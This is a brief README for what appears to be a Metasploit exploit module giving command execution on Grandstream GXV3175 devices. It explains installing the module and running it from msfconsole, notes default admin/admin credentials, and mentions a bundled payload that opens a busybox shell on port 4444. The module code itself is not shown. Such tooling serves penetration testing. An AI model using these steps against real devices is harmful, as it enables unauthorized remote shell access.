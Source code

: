 
===  INSTALLATION ===

copy the files to the same directory structure under the metasploit top level dir

=== USE ===

in msfconsole

---

use exploits/linux/http/grandstream_gxv3175_cmd_exec

set RHOST 192.168.0.1

set USERNAME & PASSWORD if required (defaults set to admin / admin)

run

--- 

Also comes with a (default) custom payload to spawn a busybox shell on port 4444

